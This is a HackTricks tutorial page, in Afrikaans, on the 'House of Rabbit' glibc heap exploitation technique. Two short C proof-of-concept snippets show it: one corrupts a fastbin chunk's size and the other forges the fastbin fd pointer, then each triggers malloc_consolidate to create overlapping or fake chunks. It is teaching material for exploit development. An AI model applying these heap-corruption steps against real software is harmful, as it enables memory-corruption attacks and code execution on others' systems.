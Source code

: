 # Huis van die Haas

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

### Vereistes

1. **Vermoeë om vinnige bin fd-aanwyser of grootte te wysig**: Dit beteken jy kan die voorwaartse aanwyser van 'n stuk in die vinnige bin verander of sy grootte.
2. **Vermoeë om `malloc_consolidate` te aktiveer**: Dit kan gedoen word deur óf 'n groot stuk toe te ken óf die boonste stuk saam te voeg, wat die hoop dwing om stukke te konsolideer.

### Doelwitte

1. **Skep oorvleuelende stukke**: Om een stuk met 'n ander te laat oorvleuel, wat verdere hoopmanipulasies moontlik maak.
2. **Vals stukke vervals**: Om die toewysingsprogram in die val te lok om 'n vals stuk as 'n regmatige stuk tydens hoopoperasies te behandel.

## Stappe van die aanval

### POC 1: Wysig die grootte van 'n vinnige bin-stuk

**Doel**: Skep 'n oorvleuelende stuk deur die grootte van 'n vinnige bin-stuk te manipuleer.

* **Stap 1: Ken Stukke Toe**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Stap 2: Vrygemaakte brokke**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Ons maak albei brokke vry, en voeg hulle by die fastbin lys.

* **Stap 3: Wysig Brok Grootte**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
### Ons verander die grootte metadata van `chunk1` na 0xa1. Dit is 'n noodsaaklike stap om die toewysingsprogram tydens konsolidasie te mislei.

* **Stap 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
### POC 2: Wysig die `fd` wyser

**Doelwit**: Skep 'n vals blokkie deur die vinnige bin `fd` wyser te manipuleer.

* **Stap 1: Allokeer Blokkies**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Verduideliking**: Ons ken twee stukke toe, een kleiner en een groter, om die heap op te stel vir die vals stuk.

* **Stap 2: Skep vals stuk**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Stap 3: Vry `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Verduideliking**: Ons vry `chunk1`, deur dit by die fastbin-lys te voeg.

* **Stap 4: Wysig `fd` van `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Verduideliking**: Ons verander die voorwaartse wyser (`fd`) van `chunk1` om te wys na ons valse stuk binne `chunk2`.

* **Stap 5: Trigger `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
### Opsomming

Die **Huis van die Has** tegniek behels óf die wysiging van die grootte van 'n vinnige bin stuk om oorvleulende stukke te skep óf die manipulasie van die `fd` aanwyser om vals stukke te skep. Dit stel aanvallers in staat om legitieme stukke in die hoop te vervals, wat verskeie vorme van uitbuiting moontlik maak. Die begrip en beoefening van hierdie stappe sal jou hoop-uitbuiting vaardighede verbeter.
